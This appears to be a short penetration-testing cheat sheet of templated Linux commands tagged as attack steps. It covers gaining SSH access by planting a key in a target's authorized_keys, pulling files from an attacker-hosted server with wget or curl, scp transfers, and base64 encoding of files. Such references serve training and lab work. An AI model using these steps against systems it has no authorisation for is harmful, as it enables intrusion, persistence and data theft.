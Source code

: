 ## Privesc - ssh connection using key - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
chmod 600 <keyFile>; ssh <username>@<targetIP> -i <keyFile>
```

## Privesc - write ssh key to remote host (write permissions over the .ssh folder) - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
ssh-keygen -f <fileName>; echo "copy the <fileName>.pub to the remote host (/home/user/.ssh/authorized_keys) -> then use the <fileName> to connect ssh <username>@<targetIP> -i <fileName>" 
```

## File transfers - python server - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
 ifconfig; python3 -m http.server 1234
```

## File transfers - pull files wget - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
 wget http://<attackerIP>:<port>/<file2pull>
```

## File transfers - pull files curl - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
 curl http://<attackerIP>:<port>/<file2pull> -o <fileOutName>
```

## File transfers - upload with scp - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
scp <fileName> <username>@<ip>:<outPath>
```

## File transfers - pull with scp - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
scp <username>@<ip>:<filePath> <localPath>
```

## File transfers - base64 - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
base64 <fileName> -w 0
```
